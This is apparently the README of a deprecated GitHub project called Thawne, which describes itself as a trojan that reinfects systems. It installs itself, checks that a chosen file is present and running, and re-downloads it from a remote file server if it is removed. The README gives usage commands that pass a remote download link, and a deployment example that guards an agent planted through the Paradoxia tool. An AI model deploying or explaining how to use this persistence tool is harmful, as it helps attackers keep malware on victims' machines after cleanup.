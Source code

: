 ###### NOTE : This is deprecated. Please do not expect any updates.

## Thawne
Thawne is a Sentinel for your Program. A trojan that Reinfects systems. It installs itself on the system it's Executed on. After which Thawne keeps checking if your File Exists on the System and is Running. If it's not running then Start it, If it does not exist or is removed Reinstall it.

#### Example
![thawne](https://github.com/quantumcored/thawne/raw/main/thawne.gif)

#### Deployment (Example)
After getting a Session in Paradoxia, You can see Bot information and in it, The **Agent Location**, Which is in this case the file I want to be guarded.

![img](https://github.com/quantumcored/thawne/raw/main/agentlocation.png)

We can use thawne with the **Agent Location** and it's absolute filename.

```bash
./thawne http://www.myfileserver/file_to_replace.exe < Absolute Filename > < PATH > 
```

and then Upload the file and Execute it.

#### USAGE 
```bash
$ cd Thawne
$ ./thawne < direct file download link > < filename to watch > < file path to watch >
```
